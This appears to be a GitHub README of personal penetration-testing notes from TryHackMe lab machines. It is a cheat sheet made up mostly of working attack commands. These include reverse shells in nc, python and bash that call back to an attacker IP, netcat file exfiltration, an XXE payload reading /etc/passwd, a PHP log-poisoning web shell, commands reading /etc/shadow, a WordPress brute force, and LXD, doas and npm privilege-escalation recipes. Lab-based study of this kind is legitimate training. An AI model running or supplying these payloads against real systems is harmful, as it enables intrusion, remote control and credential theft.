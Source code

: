 # HackNotes

This repository contains my personal notes and tricks that I've gathered while working on various machines in the TryHackMe platform. These notes serve as a guide for penetration testing and help me document my progress and findings.

Please note that these notes are a work in progress, and I'll be continuously adding more content as I progress through the challenges and machines.

## Introduction
In this repository, you will find a compilation of various tricks, commands, and techniques that can be useful during penetration testing activities. These notes are intended to assist in the process of hacking and securing systems.

## Tricks
Here are some handy tricks to enhance your pentesting workflow:

---
#### Spawn a fully interactive shell:
```python
# Spawn Python shell
python3 -c 'import pty;pty.spawn("/bin/bash")'

# Give terminal functions
export TERM=xterm

# Background the shell
Ctrl + Z

# Bring shell back to the foreground 
stty raw -echo; fg
```
#### Read file:
```
xxd -r file.txt 
base64 /etc/shadow | base64 -d
```
`l\s`: Equivalent to `ls`

python3 py.py 10.10.13.118 "$(cat revshell.ps1)"

#### Decompress a gzip file:
```
gzip -d file.gz
```
#### Change file without vim or nano
```
cat > file << EOF 
```

---
#### Reverse shells
* nc
```nc
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.22.27 4444 >/tmp/f
```
* python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.22.27",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```
* python3
```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.22.27",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```
* bash
```bash
bash -i >& /dev/tcp/10.18.22.27/4444 0>&1
```

---
#### Set appropriate permissions for `id_rsa` file before usage:
```linux
chmod 600 id_rsa
```
#### broken png image
```
xxd thm.jpg | head
printf '\xff\xd8\xff\xe0\x00\x10\x4a\x46\x49\x46\x00\x01' | dd conv=notrunc of=thm.jpg bs=1
```
#### NFS share
```
mkdir tmp/
sudo mount -t nfs 10.10.104.64: tmp
tree tmp
```
---
#### File Transfer on `Netcat`

1. To download a file on the remote shell:
```nc
nc ATTACKER_IP ATTACKER_PORT < [file_to_download]
```
2. To receive the file on the attacker machine:
```nc
nc -l ATTACKER_PORT > [output_file_path]
```
#### Transfer files using `scp`:
```
scp backup.zip toor@192.168.122.30:/home/username_of_remote_host
```
---
### Web
#### Discover hidden directories:
```linux
wfuzz -w /usr/share/dirb/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404 http://10.10.47.7/island/2100/FUZZ.ticket

feroxbuster -u http://10.10.46.121/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -s 200
```
#### Discover subdomains with `wfuzz` :
```
wfuzz -c -w /usr/share/dirb/wordlists/subdomains-top1million-5000.txt -u "http://team.thm" -H "Host: FUZZ.team.thm" --hw 977 
```
#### Discover files with `wfuzz` :
```
wfuzz -c -w /usr/share/dirb/wordlists/LFI-gracefulsecurity-linux.txt -u http://dev.team.thm/script.php\?page\=FUZZ --hw=0
```
#### Brute force wordpress
```
wpscan --url http://target_on_wp.com/ -e u -P /usr/share/wordlists/rockyou.txt
```
#### Example of XXE 
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&xxe;</com>
</comment>
```
#### php local file inclusion
```
http://10.10.62.183/?view=php://filter/read=convert.base64-encode/resource=dog/../index
curl "http://10.10.62.183/" -H "User-Agent: <?php system(\$_GET['cmd']); ?>"
http://10.10.62.183/?view=dog/../../../../var/log/apache2/access.log&ext&cmd='command'
```
#### bypass waf sqlmap
```
--tamper=space2comment
```

#### cadaver for WebDAV

---
### Privilege Escalation:
<details><summary> LXD container exploitation </summary> 

```
wget archive
lxc image import ./archive --alias myimage
lxc image list
lxc init myimage ignite -c security.privileged=true # If not working, use FINGERPRINT
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
```
</details>
<details><summary> with doas </summary>

```
doas -u root openssl enc -in file
doas -u root /bin/bash
```
</details>
<details><summary> with npm -u </summary>

```
mkdir ~/tmp
echo '{"scripts": {"preinstall": "/bin/sh"}}' > ~/tmp/package.json
sudo -u serv-manage /usr/bin/npm -C ~/tmp/ --unsafe-perm i
```
</details>

#### information gathering
```
cat /proc/version
cat /etc/issue
ps
env
sudo -l
hystory
ifconfig
ip route
uname -a
netstat # -at -l -t -tp -i
find / -writable 2>/dev/null
find / -mtime 10 #find files that were modified in the last 10 days
find . -name flag1.txt
find / -type d -name config #find the directory named config under “/”
find / -type f -perm /4000 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -type f -perm -04000 -ls 2>/dev/null #compare executables on this list with GTFOBins
getcap -r / 2>/dev/null
cat /etc/exports #file sharing
nmap --script=vuln <ip>
cat /proc/1/cgroup #if u in docker
```

---

### Windows

<details><summary> windows system tools </summary>
<details><summary> Local User and Group Management </summary>
It is a shell application to manage Windows system administrator applications.

```
lusrmgr.msc
```
</details>
<details> <summary> System Configuration utility </summary>

for diagnose startup issues

```
MSConfig
```
</details>
<details> <summary> Task Manager </summary>

to manage (enable/disable) startup items. 
```
taskmgr
```
</details>
<details> <summary> User Account Control </summary>
helps prevent unauthorized changes (which may be initiated by applications, users, viruses, or other forms of malware) to an operating system

```
UserAccountControlSettings.exe
```
</details>
<details> <summary> Computer Management </summary>
the process of managing, monitoring and optimizing a computer system for performance, availability, security

```
compmgmt
```
</details>
<details> <summary> System Information </summary> 
(gathers information about your computer and displays a comprehensive view of your hardware, system components, and software environment, which you can use to diagnose computer issues.)

```
msinfo32
```
</details>
<details> <summary> Resource Monitor </summary>
displays per-process and aggregate CPU, memory, disk, and network usage information, in addition to providing details about which processes are using individual file handles and modules

```
resmon
```
</details>
<details> <summary> Windows Registry </summary>
central hierarchical database used to store information necessary to configure the system for one or more users, applications, and hardware devices

```
regedit
```
</details>
<details><summary>Group policy objects</summary>
a collection of settings that can be applied to OUs
</details>
</details>

<details><summary> SMB discovery </summary>

enumerate

```
enum4linux -h
```
open SMB shares

```
smbclient -L 10.10.251.241
```

enumeration
```
smbmap -H '10.10.13.234' -u '' -p '' -R 
smbmap -H '10.10.195.72' -u '' -p '' -R -A 'enter.txt' #download file
```

scan with nmap

```
nmap -p 139,445 -Pn -script smb-enum* 10.10.251.241
nmap -p 139,445 -Pn -script smb-vuln* 10.10.251.241
```

connect with smbclient

```
smbclient \\\\10.10.251.241\\nt4wrksv
```

</details>

<details><summary>rdp </summary>

```
rdesktop -u <username> -p <password> <ip> -g 70% -r disk:folder=/home/toor/cd/apps
```

</details>

---

### links
* [database with CVE exploits](https://cvexploits.io/)
* [explainshell.com](https://explainshell.com/)
* [Linux Kernel CVEs](https://www.linuxkernelcves.com/cves)
* [reverse shells](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
* [g0tmi1k priv esc linux](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
* [rapid7](https://www.rapid7.com/)
* [attackerkb](https://attackerkb.com/)
* [cve.mitre.org](https://cve.mitre.org/cve/)
* [exploit-db](https://www.exploit-db.com/)

###  Encoding techniques:
- [splitbrain](https://www.splitbrain.org/_static/ook/)
- [hashes](https://hashes.com/en/tools/hash_identifier)
- [md5hashing](https://md5hashing.net/hash)
- [cyberchef](https://gchq.github.io/CyberChef/)
- [free pass hash cracker](https://crackstation.net/)
- [crack station](https://crackstation.net/)

####  Automated Enumeration Tools
* [linPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
* [linEnum](https://github.com/rebootuser/LinEnum)
* [LES](https://github.com/mzet-/linux-exploit-suggester)
* [Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
* [linux Priv Checker](https://github.com/linted/linuxprivchecker)

---
Happy hacking!
